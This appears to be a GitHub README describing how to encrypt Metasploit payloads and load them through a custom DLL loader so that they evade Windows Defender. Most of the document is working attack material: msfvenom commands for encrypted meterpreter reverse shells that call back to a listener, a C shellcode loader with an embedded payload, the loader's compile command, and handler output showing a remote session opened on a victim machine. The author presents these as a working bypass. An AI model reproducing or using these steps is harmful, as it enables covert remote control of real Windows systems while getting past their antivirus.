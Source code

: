 # metaploit-encrypted-payloads 
This repo documents encrypting metasploit payloads for Windows Defender evasion. This was adapted from the blog post [here](https://blog.rapid7.com/2018/05/03/hiding-metasploit-shellcode-to-evade-windows-defender/).

## Background
Windows defender uses two approaches, Client ML and Cloud ML. When Client ML fails to make a determination, it sends it to Cloud ML and that usually means we are screwed. Additionally, the creation of AMSI allows programs to scan data buffers in Windows Defender via API. PowerShell was modified to do this with `-Command` arguments which makes it much harder to abuse PowerShell now.

### Client ML
* Light Weight
* Hash Signatures
* Behavior Detection
* Heuristics
### Cloud ML
* Decision tree model
* Automatic Sample Submission (Configurable)
* Sample Based Analysis
* Dentenation Based Analysis

## Step 1 - Shell Code Encryption
Encryption of the shellcode a rest, generally will prevent signature based static analysis by windows defender. In my testing, I discovered that it still found encrypted meterpreter payloads indicating there is some metadata somewhere non-encrypted in the payload which is being used as a static signature. Reverse shells were found to bypass.
### Encryption Support
* AES256-CBC
* RC4
* XOR
* Base64
### Generate Encrypted Payload
```bash
# output as C to write custom loaded
ruby ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f c

# output as exe for ease of use
ruby ./msfvenom -p windows/meterpreter/reverse_tcp LHOST=127.0.0.1 --encrypt rc4 --encrypt-key thisisakey -f exe -o encrypted.exe
```
The above payloads, once decrypted can still be detected at runtime.
## Step 2 - Seperation
Seperate the loaders and stagers. Using `windows/shell_reverse_tcp` puts stage into the loader's code so it is more likely to be detected. Always use a stager, e.g. `windows/shell/reverse_tcp` so the loader just launches the stager.
### Example With Manual Loader
```C
unsigned char shellcode[] = 
"\x69\x77\xb9\xb0\x11\xec\xc7\x98\x4d\x48\x80\xb6\x57\x51\xb6"
"\x93\x5c\x0e\x42\x18\xc1\x17\x8e\xcc\xd4\x9b\xc7\xba\xbe\x81"
"\x74\xa5\xd1\xd4\xa1\x5f\x5e\xf4\x30\x59\x68\x4b\xd2\x91\x47"
"\xb7\x90\x51\xbb\x04\x90\x7a\x04\xcd\xe2\x53\xdc\x48\x53\x11"
"\x95\x7b\xdd\xc3\x86\x81\x38\x62\xaf\x75\xd6\x29\xe6\xb7\xce"
"\x88\x04\xc3\xfe\xef\xd4\x69\xd7\x71\x7d\x52\x77\x3d\x48\x2b"
"\x34\xeb\xa0\xe6\x51\x51\xe6\x92\xda\x31\xc6\x18\x63\xb7\x7c"
"\xd3\x8f\x6a\xe7\x06\x91\x06\x95\xaf\x68\xf1\x94\x02\xea\x35"
"\xd5\x84\x09\x7d\x77\x0f\xd4\xd0\x4e\x2b\x0a\x66\xc4\x07\xb4"
"\x65\xe9\xc7\xc7\x69\x4f\x63\x7f\x5f\x7a\x73\x49\x9c\xf9\xc5"
"\x75\xab\xc5\x8d\x95\x35\x57\x56\xbd\xb8\xa7\x25\x94\x25\x82"
"\x89\x1b\xcd\xe2\xdf\xae\xa5\x69\xc9\x05\x64\xb9\x49\x81\x09"
"\xc6\x0c\x53\xc9\x98\x42\x94\x11\x64\x04\xb6\x9c\xb3\x32\xd7"
"\xb5\x25\x58\xd3\xa6\x2a\x56\xf7\x47\x43\x60\x70\xd8\x96\xfc"
"\xbf\xfe\xc2\x1d\x5b\xc5\x2f\xc6\xa0\x4d\xfc\x3d\x54\xa0\xbe"
"\x18\xbe\x83\x87\x42\x0a\x75\x97\x09\x8a\xe8\xc2\x4d\xef\x00"
"\x71\x59\xad\x5f\xef\x55\x67\x9c\xaf\x49\xf4\xe4\x3f\x7e\xe1"
"\x30\xdc\x82\xf4\x1d\xbb\x0a\x8d\x8f\xf1\xe3\x03\xd8\x34\xa6"
"\xf2\xc6\x9c\x7b\xe1\x62\xa5\xd7\x0e\xe1\x7b\xe7\x8d\x18\x3d"
"\x07\xd7\xbd\x06\xac\xd3\x37\xf5\x97\xdc\x8b\x88\xb8\x89\xc3"
"\x09\xf7\xe0\x75\x14\x8d\x01\x29\xb2\xe5\x7f\x30\xef\x15\x5e"
"\xc5\xe1\xbc\xcb\x47\x41\x1e\xde\xab\xd1\xde\xae\x33\x29\xd1"
"\x0e\xb2\x25\x80\x9e\xa1\x58\x6f\x08\x7a\xa6";

// funcptr prototype
int (*func)();

// funcptr assignment to shellcode char array
func = (int (*)()) shellcode;

// this line causes the issue with AV - The execution
(int)(*func)();
```
The above code loads the stager shell code. In testing, it was discovered this technique is detected as malicious behavior by Defender. Likely, it sees the function pointer indirection and casting as suspicious. To get around, dynamically load a DLL.
### DLL Loading Example
Using `LoadLibrary` will seem less suspicious it seems and will be allowed by Defender.
#### Shell Code
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.220.129 LPORT=443 --encrypt rc4 --encrypt-key thisisakey -f dll -o shellcode.dll
```

#### Custom Loader
```C++
#include <stdio.sh>
#include <windows.h>

int main(void)
{
	HMODULE hMod = LoadLibrary("shellcode.dll");
	if( hMod == nullptr )
	{
		prinf("Failed to load DLL\n");
	}
	
	return 0;
}
```
Compile
```bash
i686-w64-mingw32-g++ loader.cpp -o loader.exe -static-libgcc -static-libstdc++
```

### Results
These two files, `loader.exe` and `shellcode.dll` where downloaded on the victim Windows machine and were launched via the commandline and a successful reverse shell was received in `metasploit`. These techniques seem good enough for now to bypass Windows defender.

## Revisiting Meterpreter
It was discovered using `shikata_ga_nai` encoding, the DLL could be landed on the machine without a static match. However, on execution, the meterpreter behavior was detected and blocked as it tried to to download the stage from msfconsole. Creating a stageless payload with encryption and encoding was statically flaged by Defender as well.

I investigated the methods described below for meterpreter and Defender caught both statically.

[Windows Defender Bypassing For Meterpreter](https://hacker.house/lab/windows-defender-bypassing-for-meterpreter/)

[Evading Antivirus with Better Meterpreter Payloads](https://securityboulevard.com/2020/02/evading-antivirus-with-better-meterpreter-payloads/)

### Working PoC
Using the DLL Loading technique discribed above and using stage encoding, meterpreter was able to be delievered with Defender.
#### DLL Generation
Same loader.cpp / loader.exe is used.
```bash
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.220.129 LPORT=443 EnableStageEncoding=true --encrypt aes256-cbc --encrypt-key jackery --encoder x86/shikata_ga_nai -f dll -o shellcode.dll
```

#### MSF Setup
```
msf5 > use multi/handler
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_https
msf5 exploit(multi/handler) > set EnableStageEncoding true
msf5 exploit(multi/handler) > set LHOST 0.0.0.0 
msf5 exploit(multi/handler) > set LPORT 443
msf5 exploit(multi/handler) > run

[*] Started HTTPS reverse handler on https://0.0.0.0:443
[*] https://0.0.0.0:443 handling request from 192.168.220.142; (UUID: 2jgz5xmb) Encoded stage with x86/shikata_ga_nai
[*] https://0.0.0.0:443 handling request from 192.168.220.142; (UUID: 2jgz5xmb) Staging x86 payload (177270 bytes) ...
[*] Meterpreter session 5 opened (192.168.220.129:443 -> 192.168.220.142:50091) at 2020-10-31 11:47:22 -0400

meterpreter >  
```


